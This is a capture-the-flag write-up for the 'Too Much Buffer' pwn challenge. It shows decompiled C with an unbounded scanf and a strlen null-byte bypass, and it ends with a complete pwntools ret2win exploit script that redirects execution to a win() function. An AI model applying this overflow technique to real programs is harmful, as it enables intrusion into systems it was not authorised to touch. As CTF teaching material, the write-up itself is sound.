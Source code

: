 ```yaml
---
title: Too Much Buffer
date: 2024-11-30
tags: 
- pwn
- author-fs
- buffer overflow
categories: YBNCTF 2024
---
```


by {% person fs %}

This challenge revolves a vulnerability around strlen() C and involves a buffer overflow.

```c
undefined8 main(void)

{
  int iVar1;
  undefined8 uStack_90;
  char input [104];
  size_t len;
  char *local_18;
  ulong count;
  
  uStack_90 = 0x40126f;
  ignore_me_innit_buffering();
  uStack_90 = 0x401279;
  puts(err);
  uStack_90 = 0x401283;
  puts("I eat bits with mushrooms, bits with muffins, and even bits with bits!");
  uStack_90 = 0x401299;
  scanf(%s,input);//vulnerable to buffer overflow since %s doesnt put any length restriction on input. use %[size]s to be more secure
  uStack_90 = 0x4012a5;
  len = strlen(input);//vulnerable as strlen() only counts up to null-byte
  for (count = 0; count < len; count = count + 1) {
    uStack_90 = 0x4012cb;
    iVar1 = valid_characters((int)input[count]);//checks if input has 'yesbutnoYESBUTNO'
    if (iVar1 == -1) goto LAB_00401324;
  }
  if (len < 100) {//checking if length of input exceeds 100
    local_18 = input;
    if (4 < len) {
      local_18 = input + (len - 4);
    }
    uStack_90 = 0x40131e;
    printf("Most yummy part(also the last part): %s\n",local_18);
    return 0;
  }
LAB_00401324:
  uStack_90 = 0x40132e;
  puts("ewwwwwwwwwwwwwwwwwww what\'d you put in that????");
                    /* WARNING: Subroutine does not return */
  uStack_90 = 0x401338;
  exit(0);
}
```

We also see there's a win() function that cats out flag on remote server. Given that strlen() only counts up to null byte and scanf() is vulnerable to buffer overflow and we need to contain the string 'yesbutnoYESBUTNO' inside our input, we can construct our payload as such. Payload example: (b'yesbutnoYESBUTNO'+b'\x00\x00\x00\x00')\*5 (this just gets our payload to 100 length)+b'A'*padding to rbp+b"A"\*8 (overwrite rbp) + ret gadget (stack alignment issue)+address of win()(get rip register to point to win() function address),

Hence, we can write our payload as such,

```py
from pwn import *

p=process("./buffer_monster")
#p=remote("tcp.ybn.sg", "28433")
elf=ELF("./buffer_monster")
#gdb.attach(p)

cyclic_payload=cyclic_find("haaaiaaa")#offset to rbp register
print(cyclic_payload)
payload=b"yesbutnoYESBUTNO\x00\x00\x00\x00"*5+cyclic(cyclic_payload)+b"A"*8+p64(0x0000000000401016)+p64(elf.sym['win'])
p.sendline(payload)
p.interactive()
```

We get flag.txt running this.

Make more stack pwn in finals please.
